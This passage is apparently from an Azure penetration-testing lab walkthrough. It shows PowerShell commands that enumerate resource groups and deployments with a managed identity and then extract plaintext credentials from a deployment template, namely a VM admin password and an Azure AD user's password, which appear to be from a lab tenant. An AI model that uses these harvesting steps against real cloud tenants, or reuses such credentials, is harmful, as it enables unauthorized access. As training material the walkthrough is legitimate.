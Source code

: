 - We can see that this Managed Identity does not have access to any Resources. We can check if it has access to any Resource Groups.
```powershell
PS C:\Auditor> Get-AzResourceGroup


ResourceGroupName : SAP
Location          : germanywestcentral
ProvisioningState : Succeeded
Tags              :
ResourceId        : /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/SAP
```

- We can now check of the Managed Identity has any kind of access to Deployments in that Resource Group.
```powershell
PS C:\Auditor> Get-AzResourceGroupDeployment -ResourceGroupName SAP


DeploymentName          : stevencking_defcorphq.onmicrosoft.com.sapsrv
ResourceGroupName       : SAP
ProvisioningState       : Failed
Timestamp               : 1/31/2024 5:21:41 AM
Mode                    : Incremental
TemplateLink            :
Parameters              :
                          Name               Type                       Value
                          =================  =========================  ==========
                          vmName             String                     "SAPSrv"
                          vmAdminUserName    String                     "sapadmin"
                          vmAdminPassword    String                     "sapadmin@12345"
                          vmSize             String                     "Standard_B1s"
                          vmOSVersion        String                     "2019-Datacenter"
                          vmOsSkuVersion     String                     "latest"
                          dnsLabelPrefix     String                     "sap"

Outputs                 :
DeploymentDebugLogLevel : None
```

- We can see that we have discovered credentials for an account that is a local administrator to a VM. We can also download the Template to our machine and extract credentials there.
```powershell
PS C:\Auditor> Save-AzResourceGroupDeploymentTemplate -ResourceGroupName SAP -DeploymentName stevencking_defcorphq.onmicrosoft.com.sapsrv

Path
----
C:\Auditor\stevencking_defcorphq.onmicrosoft.com.sapsrv.json


PS C:\Auditor> (cat C:\AzAD\Tools\stevencking_defcorphq.onmicrosoft.com.sapsrv.json |ConvertFrom-Json |select -ExpandProperty Resources).resources.Properties.Settings.CommandToExecute
$username = "stevencking@defcorphq.onmicrosoft.com";$password="Stev3nC@nreadSt0rage@ccounts889944";$SecurePassword = ConvertTo-SecureString "$password" -AsPlainText -Force;$credentials = New-Object System.Management.Automation.PSCredential($username, $SecurePassword);Login-AzAccount -Credential $credentials;Get-AzureADTenantDetail
```
